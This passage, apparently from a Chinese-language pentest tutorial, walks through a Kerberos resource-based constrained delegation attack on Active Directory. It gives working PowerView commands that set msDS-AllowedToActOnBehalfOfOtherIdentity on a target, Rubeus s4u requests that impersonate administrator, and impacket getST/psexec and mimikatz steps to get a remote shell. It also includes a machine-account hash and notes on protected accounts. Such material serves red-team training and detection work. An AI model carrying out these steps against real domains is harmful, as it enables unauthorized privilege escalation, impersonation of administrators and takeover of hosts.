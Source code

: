 添加了一个密码 testObject，名为 hacksystem 的机器账户，接下来就是配置 hacksystem 到 WIN7 的委派了。我们需要做的，是修改 WIN7 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的值 ，这个操作我们用 powerview 实现。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```powershell<br># 这里的 sid -> S-1-5-21-3298638106-3321833000-1571791979-1112<br># 是我们创建的 机器用户 evilsystem 的 sid，在 powerview 下用 <br>Get-Domiancomputer hacksystem<br># 获取<br><br>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3298638106-3321833000-1571791979-1112)"<br><br>$SDBytes = New-Object byte[] ($SD.BinaryLength)<br><br>$SD.GetBinaryForm($SDBytes, 0)<br><br>Get-DomainComputer [目标主机名]\| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose<br>``` |

验证是否成功添加：

`Get-DomainComputer WIN7 -Properties msds-allowedtoactonbehalfofotheridentity`

配置完 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性之后就可以通过基于资源的约束委派去攻击目标主机了

#### [](#424-%E6%94%BB%E5%87%BB)4.2.4 攻击

攻击路径：user -> evil -> target

本地导出机器用户的 ntlm hash：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>Rubeus.exe hash /user:evilsystem /password:testObject /domain:xxx<br>``` |

然后用 `evilsystem$` 的 hash 请求白银票据并导入到当前会话中：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>Rubeus.exe s4u /user:evilsystem$ /rc4:xxx /impersonateuser:administrator /msdsspn:cifs/dc /ptt<br><br>Rubeus.exe s4u /user:evilsystem$ /rc4:xxx /impersonateuser:administrator /msdsspn:host/dc /ptt<br>``` |

#### [](#425-%E6%B3%A8%E6%84%8F%E4%BA%8B%E9%A1%B9)4.2.5 注意事项

Rubeus 申请的票据和 impacket 申请的缓存票据有差别，测试时使用 Psexec 返回一个 shell 失败，需要再申请一个 HOST 票据。

impacket

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```bash<br>getST.py -dc-ip IP -spn cifs/target -impersonate administrator pentest.com/evilsystem$:evil<br><br>set KRB5CCNAME=administrator.ccache<br><br>python psexec.py -nopass -k target<br><br># 或者利用 mimikatz 导入票据<br>mimikatz.exe "privilege::debug" "kerberos::ptc administrator.ccache"<br>Psexec.exe \\target -s cmd<br>``` |

#### [](#426-%E8%A7%A3%E5%86%B3%E6%95%8F%E6%84%9F%E8%B4%A6%E6%88%B7%E4%B8%8D%E8%83%BD%E5%A7%94%E6%B4%BE)4.2.6 解决敏感账户不能委派

利用条件：知道目标的主机账户的凭证

**注：** 一般情况下主机在加入域中会随机设置主机账户的密码，所以一般情况下用的是主机账户 hash，并且不能修改主机账户的密码，否则该主机就会和域失去信任。

在域环境中，高权限用户如果没有特殊需求的情况下，考虑到安全性一般是设置为不可委派，或者是加入受保护组

在以 administrator 账户身份进行 S4U 时，只能进行 S4U2SELF，不能进行S4U2PROXY。

用 `Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/target /ptt`继续实验 administrator，发现确实是这样
